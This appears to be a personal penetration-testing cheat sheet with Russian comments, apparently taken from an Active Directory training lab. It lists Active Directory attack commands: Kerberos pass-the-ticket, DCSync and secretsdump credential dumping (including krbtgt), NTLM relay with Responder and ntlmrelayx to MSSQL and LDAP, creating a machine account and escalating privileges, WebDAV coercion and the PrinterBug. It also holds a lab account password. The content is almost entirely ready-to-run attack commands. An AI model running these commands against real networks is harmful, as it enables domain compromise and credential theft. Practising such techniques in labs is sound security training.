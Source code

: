   		[IO.File]::WriteAllBytes("C:\Users\spirit\Desktop\DC.kirbi", [Convert]::FromBase64String("Base64"))  (путь только полный!!!! а  base 64 вставляем билет без пробелов)

      		kerberos::ptt DC.kirbi
		lsadump::dcsync /domain:domain.local /user:Administrator
или
  		
		nano ticket.kirbi_b64       
  		base64 -d ticket.kirbi_b64 > ticket_real.kirbi
   		ticketConverter.py ticket_real.kirbi ticket.ccache
		export KRB5CCNAME=ticket.ccache 
        	crackmapexec smb dc.domain.local -k --use-kcache --ntds

или
  		KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
		secretsdump.py -k -no-pass -dc-ip '10.129.205.35' @'dc01.inlanefreight.local'
    		
# NTLMRELAY ATTACK
	Запускаем респондер и убираем в нем smb = off and http = off
	
 	python3 Responder.py -I ens192
	Запускаем ntlmrelayx

 	ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks
  	ntlmrelayx.py -t all://172.16.117.60 -smb2support -socks
	ntlmrelayx.py -tf hosts.txt -smb2support -socks

	proxychains -q mssqlclient.py INLANEFREIGHT/nports@172.16.117.60 -windows-auth -no-pass
*** на ldap 
	
 	sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump (Дамп домена)
 	sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'   (создание учетной записи компутера)
	sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug (Повышение привилегий через злоупотребление ACL)
 
*** WEB DAV 
 	 
   	crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=Testing FILENAME=@secret	 (включаем вебдав но почему то на 172.16.117.60)
	 crackmapexec smb 172.16.117.60 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav	(проверка включения web DAV)
	python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.60 SUPPORTPC@80/print    		(использование printer bug для web dav)
 	sudo python3 Responder.py -I ens192

*** Printer BUG

 	https://github.com/dirkjanm/krbrelayx
 	python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.3 172.16.117.30      (откуда и куда)
	python3 Responder.py -I ens192
